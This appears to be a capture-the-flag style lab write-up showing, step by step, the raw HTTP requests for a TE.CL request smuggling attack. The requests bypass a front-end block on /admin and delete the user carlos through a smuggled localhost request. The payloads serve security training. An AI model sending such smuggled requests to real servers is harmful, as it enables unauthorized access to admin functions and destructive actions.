





# Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability

## This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding. There's an admin panel at `/admin`, but the front-end server blocks access to it.

## To solve the lab, smuggle a request to the back-end server that accesses the admin panel and deletes the user `carlos`.

---

### step 1

```
Transfer-Encoding: chunked

5a
GET / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

you will get response 200 ok

### step2

```
Transfer-Encoding: chunked

67
GET /post?postId=5 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```



### step3

```
Transfer-Encoding: chunked

5f
GET /admin HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```



### step5

```
Content-Length: 4
Transfer-Encoding: chunked

70
GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

```



### step6

```
Content-Length: 4
Transfer-Encoding: chunked

87
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

```




